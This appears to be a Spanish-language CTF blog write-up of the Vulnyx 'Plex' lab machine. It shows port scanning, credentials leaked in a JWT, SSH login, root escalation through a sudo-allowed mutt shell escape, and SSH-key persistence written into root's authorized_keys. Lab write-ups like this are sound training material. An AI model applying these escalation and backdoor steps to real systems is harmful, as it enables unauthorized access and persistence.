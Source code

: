 ```yaml
---
title: Vulnyx - Plex
author: estx
date: 2024-03-11 17:51:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Multiplexing Ports', 'Information Leaked' , 'Mutt']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Plex/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Plex Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Multiplexing Ports, Mutt**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.61	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.61 -oG puertos`**

  ![](/assets/images/Vulnyx/Easy/Plex/01-ports.png)

b. Vemos la version del servicio que se está ejecutando en el **puerto 21**

* **`nmap -p21 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Easy/Plex/02-versions.png)

> Lo que más nos llama la atención aquí, es que en el **puerto 21** se está ejecutando el servicio `SSH`. Esto no hace pensar en que se configuró **`Multiplexing Ports`**, eso permite asignar múltiples servicios a un único puerto. La ventaja es que se conservan mejor los recursos de red ya que se usa una única conexión, pero, conlleva sobrecarga o congestiones. [Ports and Their Multiplexing](https://www.vskills.in/certification/tutorial/ports-and-their-multiplexing/)
{: .prompt-info }


c. Con lo anterior en mente, realizamos intentos de conexión con diferentes servicios

```bash
❯ ftp 192.168.100.61
Connected to 192.168.100.61.
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u4
------------------------------------------
❯ ssh 192.168.100.61 -p 21
root@192.168.100.61's password: 
------------------------------------------
❯ curl -s -X GET http://192.168.100.61:21

Hello Bro!
You only need a port to be happy...
```

* Al realizar un cURL nos dan una pista. Entonces seguimos investigando por la parta de un servicio HTTP

    ```bash
    ❯ dirsearch -u http://192.168.100.61:21/
    
    ...
    [14:32:39] 200 -   49B  - /index.html
    [14:32:49] 200 -   58B  - /robots.txt
    [14:32:49] 200 -    8KB - /server-status/
    [14:32:49] 200 -    8KB - /server-status
    ```

* Vemos el contenido del fichero **robots.txt**

    ```bash
    ❯ curl -s -X GET http://192.168.100.61:21/robots.txt
    User-agent: *
    Disallow: /9a618248b64db62d15b300a07b00580b
    ```

* Encontramos la ruta `/9a618248b64db62d15b300a07b00580b` y si le hacemos un cURL nos redireccionará, por lo que, habilitamos el redireccionamiento con cURL

    ```bash
    ❯ curl -s -X GET http://192.168.100.61:21/9a618248b64db62d15b300a07b00580b -L
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0.zMeVhhqARJ6YzuMtwahGQnegFDhF7r0BCPf3H9ljDIk
    ```

d. Decodeamos el JWT en [JWT.io](https://jwt.io/)

  ![](/assets/images/Vulnyx/Easy/Plex/03-jwt.png)

> Tenemos las credenciales de `mauro:m@uR0123!`
{: .prompt-tip }


### Escalada de Privilegios 💹

a. Nos autenticamos como **mauro** en el servicio SSH y enumeramos permisos a nivel de sudoers

```bash
❯ sshpass -p 'm@uR0123!' ssh mauro@192.168.100.61 -p 21
mauro@plex:~$ sudo -l
Matching Defaults entries for mauro on plex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mauro may run the following commands on plex:
    (root) NOPASSWD: /usr/bin/mutt
```

> **`Mutt`:** Es un cliente de correo electrónico basado en texto (Línea de comandos) [¿Qué es Mutt?](https://es.linux-console.net/?p=640)
{: .prompt-info }

b. Iniciamos mutt como un usuario root y listamos los comandos disponibles (Lo hacemos tecleando `?`)

![](/assets/images/Vulnyx/Easy/Plex/04-list.png)

c. Ejecutamos un comando para spawnear una bash

![](/assets/images/Vulnyx/Easy/Plex/05-shell.png)

```bash
root@plex:~# cat root.txt 
943f08fb32181d5f8171332146f39e41
```

### Extras 🌟

a. Para entablar persistencia, registraremos nuestra **clave pública RSA** como claves autorizadas en el usuario root

```bash
❯ ssh-keygen
Generating public/private rsa key pair.
```

* Copiamos el contenido del archivo **id_rsa.pub** y lo colocamos en `/root/.ssh/authorized_keys`

```bash
root@plex:~# mkdir .ssh
root@plex:~# cd .ssh/
root@plex:~/.ssh# touch authorized_keys

root@plex:~/.ssh# echo -n 'ssh-rsa ...' > authorized_keys
```

b. Y ahora ya podemos autenticarnos directamente como **root** por SSH

```bash
❯ ssh root@192.168.100.61 -p 21 -i id_rsa
root@plex:~#
```